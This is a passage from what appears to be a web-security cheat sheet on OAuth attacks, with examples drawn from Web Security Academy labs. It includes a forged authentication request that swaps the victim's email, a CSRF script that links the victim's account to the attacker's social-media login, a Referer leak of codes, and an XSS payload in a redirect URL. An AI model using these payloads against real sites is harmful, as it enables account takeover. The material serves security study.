```http
POST /authenticate HTTP/2
Host: 0a9800510465d729800a216300040036.web-security-academy.net
Cookie: session=yubcmNuHJQXbon9rohMPLcLHXdnl4OyX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Referer: https://0a9800510465d729800a216300040036.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a9800510465d729800a216300040036.web-security-academy.net


{"email":"carlos@carlos-montoya.net","username":"wiener","token":"lf7bYBQNBgrgqvnk6gVxH8VxV581z2laZvsEwY4bL3X"}
```

### Flawed CSRF protection
if you notice that the authorization request does not send a `state` parameter or used as a static value, or not properly validated it is vuln to csrf, 


**for Example** if OAuth used for social media link authorization you can start an OAuth flow and intercrept the authorization link and send it to the vicitm , now the victim is linked to your social media account and you can use your social media auth to login to his account 


```html
<script>
    location = "https://0a76004a0329df58826e340d00f800ae.web-security-academy.net/oauth-linking?code=Nx7vBhy9h-asF2x9-HTN9hIiNHXiIPNWgJPnX9i8Vwm"
</script>
```

### Referer Header leaking Code + State
- Once the client has the code and state, if it's reflected inside the Referer header when he browses to a different page, then it's vulnerable. 
- If the user navigates away from the client application to another site (e.g., clicking on an external link), the browser may include the entire URL of the current page
```http
Referer: https://client.example.com/callback?code=AUTH_CODE&state=STATE_PARAM
```

### XSS in redirect implementation

[source](https://blog.dixitaditya.com/oauth-account-takeover)

```html
https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard</script><h1>test</h1>
```

## Vulnerabilities in the OAuth service

### Leaking authorization codes and access tokens by Flawed redirect_uri validation
